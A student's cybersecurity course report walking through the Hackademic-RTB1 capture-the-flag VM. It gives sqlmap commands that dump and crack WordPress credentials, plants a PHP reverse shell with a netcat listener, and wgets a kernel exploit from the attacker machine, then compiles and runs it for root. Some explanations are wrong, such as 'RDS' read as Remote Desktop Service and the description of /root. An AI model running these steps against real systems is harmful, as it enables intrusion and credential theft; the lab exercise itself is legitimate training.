


# Report for the *Cybersecurity* course - Hackademic-RTB1
*Alberto Beltrami - IN2000253*

This is a CTF ("Capture The Flag") challenge. The goal is to read (capture) a specific file (the flag) stored in the target machine.

First of all, I installed the virtual machine from [here](https://www.vulnhub.com/entry/hackademic-rtb1,17/). This virtual machine will be the target for this activity. All the following steps for this demo have been executed from a Kali Linux virtual machine previously installed on my laptop.

The main steps to complete this activity are:
- Network Scanning
- WordPress based SQLMAP Scanning
- Databases and WordPress user credentials extraction
- Login into the WordPress admin console with specific user
- File update and Reverse shell execution
- Reverse shell connection
- Exploiting the target
- Getting root access and flag capture

## Network Scanning

I had to "discover" the network, searching for any device available in it, in particular I had to find the IP address of the target. So, I used the `netdiscover` command in the terminal. This is a reconnaissance tool to identify live hosts on the network. The following picture shows the output of the `netdiscover` command I obtained.

At this point I needed some information about the IP addresses I have just obtained. So, I used the `nmap` command with the `-A` option set to obtain as much information as possible. This command executes several scans and scripts to analyse the specified IP address, providing many information about it. In particular, I was interested to know which port numbers were opened on these IP addresses. The following picture shows the output of the command for each IP address I found.

The 10.0.2.1 IP address is something related to DNS, since it had the 53 port opened. I will not use this device during this activity, in the following steps I will silmply ignore it. I ignored also the 10.0.2.3 IP address, since it seems down. However, I observed there was an 80 port opened on the IP address is 10.0.2.15. This will be the target.  Since the port 80 is assigned to internet communications, I browsed the IP address of the target (http://10.0.2.15). I obtained a web page. Then, I navigate within this web page clicking on the word *"target"* and then on *"uncategorized"*, so I have been redirected to the http://10.0.2.15/Hackademic_RTB1/?cat=1 page. Simply adding a single quote ( ' ) to this URL, I obtained a WordPress database error. The following picture shows the error statement (inside the red box).

In addition, from these web pages I found some information about the goal of the entire activity, since in the webpage I found the statement: *"Goal: Gain access to the (HackademicRTB1) box and read the “**Key.txt**” file in the root directory"*.

## WordPress based SQLMAP Scanning

The error I have just found was a vulnerability exposition of the web application. In particular, at that point I realised this is a WordPress website with a SQL injection vulnerability. So, I executed a specific command in the terminal to test the URL searching for SQL injection vulnerabilities.

`sqlmap –u http://10.0.2.15/Hackademic_RTB1/?cat=1 --dbs --batch`

This command targets the specified URL automaticaly checking for  SQL injection vulnerabilities. If a vulnerability is found, this command enumerates and lists all the databases available on the targeted system (without asking any user input/interaction). The following picture shows the output of the command I executed.

## Databases and WordPress user credentials extraction

After noticing a WordPress database was available on the web application (red arrow in the previosly picture), I executed another command from the terminal to extract users information from the WordPress database.

`sqlmap –u http://10.0.2.15/Hackademic_RTB1/?cat=1 -D wordpress --dump-all --batch`

This command is the SQL injection attack on the targeted web application. It extracts all the tables and entries of the WordPress database available on the web application automatically answering to all the promts (again, no user interactions are required). In addition, this command automatically performs the password cracking of the users’ passwords.

The following picture shows the output of the command (actually this is only a portion of the entire output I obtained). In particular, there are all the username registered on the web application with their corresponding password and password hash.

This means I have obtained valid credentials for the web application.

## Login into the WordPress admin console with specific user

I browsed the WordPress login page (http://10.0.2.15/Hackademic_RTB1/wp-login.php).

Logging in with users credentials found with the previously command, I noticed the user *"GeorgeMiller"* has much more available options than other users. In particular, this user had the privileges to add and modify files. So, I decided to proceed the activity on the web application using this identity.

Clicking the *"Manage"* botton and then on the *"Files"* botton, I found a file named `hello.php`.

## `hello.php` file update and Reverse shell execution

The idea was to modify the `hello.php` file to connect from Kali to the target. So, I opened through the terminal (in Kali) the `/usr/share/webshells/php` directory  to find a file called `php-reverse-shell.php`. This file (stored in Kali) is a sort of script to establish a reverse shell connection, so I will use it in the next steps to be able to connect and communicate with the targeted system from Kali. In particular, (after some steps I will illustrate in the following paragraphs) at a certain point I will be able to execute commands in the targeted system from remote (from Kali).

I copied the content of the `php-reverse-shell.php` file and pasted it in the `hello.php` file. At that point, I had to modify a certain parameter of the `hello.php` file to specify the IP address of the machine I wanted to connect from (the Kali machine). So, I obtained the IP address of the Kali machine through an `ifconfig` command, and I inserted it in the `hello.php` file.

These were very important steps to be able to establish a reverse shell connection to be able to communicate and execute remote commands on the target from Kali.

## Reverse shell connection

I ran (on the Kali terminal) the Netcat listener with the `nc -lvp 1234` command. This command "listen" from an incoming connection on the 1234 port. This port number was written in the `php-reverse-shell.php` file (so, at that point it was written in the `hello.php` file, too).

To start the connection, I browsed http://10.0.2.15/Hackademic_RTB1/wp-content/plugins/hello.php. This means I was requesting the `hello.php` file I have modified in the previously steps, and executing the script (written in the `hello.php` file) to activate a reverse shell connection between Kali and the target. After that, I was able to execute command within the target machine from Kali.

## Exploiting the target

The exploit can be downloaded from [here](https://www.exploit-db.com/exploits/15285). However, it's already available in Kali, so I searched for it through the terminal with the command `searchsploit 15285`. This command searches for the specified exploit in some database available in Kali and it output some information such as title and location of the exploit. The title of the exploit was *"RDS protocol" - Local Privilege Escalation*. The RDS (Remote Desktop Service) protocol enables users to remotely control a computer or a virtual machine, allowing them to interact with the desktop environment and applications. So, the exploit (after its execution) increases privilege levels of the user who executed it and it gives (remote) access to files and programs stored in the machine where the exploit has been executed.

In the following steps, I will download the exploit file on the target from remote and after its execution I will be able to access files within the target machine from remote (from Kali).

I copied the exploit file in the current directory of the terminal with the command `cp /usr/share/exploitdb/exploits/linux/local/15285.c .`. Then, I ran the default Python HTTP server on port 80 on Kali with the command: `python2 -m SimpleHTTPServer 80`. I will use this server to download the exploit on the target from Kali.

I have executed the following commands from remote on the target machine through the reverse shell connection established in the previously step.

- `cd /tmp`: command to navigate within the target machine in the `/tmp` directory. This directory is usually used to store and manage configuration files, temporary files and other system files.
- `wget http://10.0.2.4/15285.c`: HTTP request to download the exploit from the HTTP server on Kali (this is possible because I have previosly opened an HTTP server on Kali with the command `python2 -m SimpleHTTPServer 80`). Please note that the IP address in the specified URL in the command is the IP address of Kali (I had to download the exploit on the target and the exploit was stored in Kali, so I had to contact the Kali machine for this).

- `ls`: command to see all the file in the current directory (`/tmp`).
- `gcc 15285.c -o kernel`: command to compile the exploit and save the output of the compilation in a file named `kernel`.

## Getting root access and flag capture

I have executed the following commands from remote on the target machine (again, through the remote shell connection) to get root access and to read the `key.txt` file (get the flag).

- `chmod 777 kernel`: command to change permissions of the `kernel` file. After this command, all users are able to read, write and execute it.

- `./kernel`: command to run the `kernel` file previously created (this command have been granted only because of the permissions changes for this file in the previous command).

- `cd /root`: command to access the `root` directory of the target. This directory is the top-level directory in every Unix file system hierarchy, and it contains all other directories and files on the system. This directory is typically accessible only to the root user or users with administrative privileges. I was able to access it because of the exploit I have executed on the target (after the execution of the exploit, I gained privileges to access this directory).
 
- `ls`: command to see all the file in the current directory (`root`). From the output of this command I observed the `root` directory of the target contained:
    -  the `Desktop` directory;
    - the `anaconda-ks.cfg` file (configuration file of Linux systems);
    - the `key.txt` file (the file I was looking for).
- `cat key.txt`: command to show the content of the specified file on the terminal.

So, I managed to find and get the flag: the `key.txt` file.

The following pictures show the terminal I used to:
- search the exploit on the database available in Kali;
- establish the reverse shell connection between Kali and the target;
- open the HTTP server on Kali;
- download, compile and execute the exploit within the target machine;
- reach the `root` directory and the `key.txt` file;
- finally see the content of the `key.txt` file. 

## Sources

This demo is related to a walkthrough found on the web. The walkthrough of the entire activity can be found [here](https://www.hackingarticles.in/hack-the-hackademic-rtb1-vm-boot-to-root/). However, some information (for example, about commands) have been obtained using ChatGPT (v3.5).
